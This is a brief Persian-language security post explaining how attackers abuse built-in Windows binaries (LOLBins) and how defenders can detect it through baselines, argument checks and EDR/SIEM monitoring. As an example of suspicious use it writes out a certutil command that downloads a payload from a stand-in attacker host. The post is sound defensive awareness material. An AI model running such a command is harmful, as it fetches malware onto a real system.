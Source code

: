 LOLBins 
چیست و چرا باید حواسمان به آن‌ها باشد؟

هکرهای حرفه‌ای همیشه دنبال روش‌هایی هستند که رد پایشان کمتر دیده شود. یکی از این روش‌ها استفاده از ابزارهای پیش‌فرض سیستم‌عامل است که به آن‌ها LOLBins می‌گویند (Living Off the Land Binaries).

ابزاری مثل cmd.exe، powershell.exe، certutil.exe یا net.exe معمولاً توسط ادمین‌ها برای کارهای روزمره استفاده می‌شوند. اما مهاجمان می‌توانند همین ابزارهای قانونی را برای دانلود بدافزار، اجرای کد مخرب یا ایجاد کاربر مخفی استفاده کنند، بدون اینکه آنتی‌ویروس بلافاصله آن‌ها را بلاک کند.


⚠ چطور متوجه شویم از LOLBins سوءاستفاده شده است؟

1. ایجاد baseline رفتاری
بدانید هر ابزار در شرایط عادی چه فرمان‌ها و پارامترهایی دارد. هر رفتار غیرمعمول باید بررسی شود.


2. بررسی آرگومان‌ها و مسیر اجرا
مثال: اجرای certutil -urlcache -f http://evil.com/payload.exe بسیار مشکوک است.


3. لاگ‌گیری و مانیتورینگ دقیق
از EDR یا SIEM برای مانیتور کردن این باینری‌ها استفاده کنید.

